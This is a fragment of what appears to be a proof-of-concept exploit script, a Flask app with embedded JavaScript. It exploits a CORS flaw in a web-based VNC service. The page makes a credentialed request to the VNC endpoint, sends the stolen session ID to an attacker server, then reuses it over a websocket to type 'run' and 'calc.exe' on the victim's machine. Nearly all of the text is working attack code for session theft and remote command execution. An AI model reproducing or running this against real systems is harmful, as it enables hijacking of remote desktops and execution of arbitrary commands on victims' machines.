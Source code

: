 ```python
                const url = "http://" + exf_server + "/cors?id=" + id_str


                // Send ID to flask application
                flask_http.open("GET", url)
                flask_http.send()

                flask_http.onreadystatechange = function() {
                        alert('Done!!!')
                }

            }
        };

        // exfiltrate ID using CORS vulnerability

        // CHANGE THIS

        var server = "%s"
        xhttp.open("GET", "http://" + server + "/vnc/cmd?cmd=connect&wscompression=true&destAddr=&screenWidth=1308&screenHeight=741&orientation=90&browserWidth=654&browserHeight=627&supportCur=true&id=null&devicePixelRatio=1&isMobile=false&isLandscape=true&supportsFullScreen=true&webapp=false", true);
        xhttp.withCredentials = true;
        xhttp.send();
        }


        </script>
        </body>
        </html>
    """ % (ip, server)


@app.route('/cors',methods=['GET'])
def cors():
    str_id = request.args.get('id')
    print(str_id)



    socket_url = "ws://" + server +  "/vnc/%7B"+ str_id +"%7D"
    ws = create_connection(socket_url)

    send_ctrl_esc(ws,str_id)

    send_text(ws,"run",str_id)
    send_enter(ws,str_id)

    send_text(ws,"calc.exe",str_id)
    send_enter(ws,str_id)

    return str_id

@app.route("/")
def index():
    return redirect('/exploit')
```
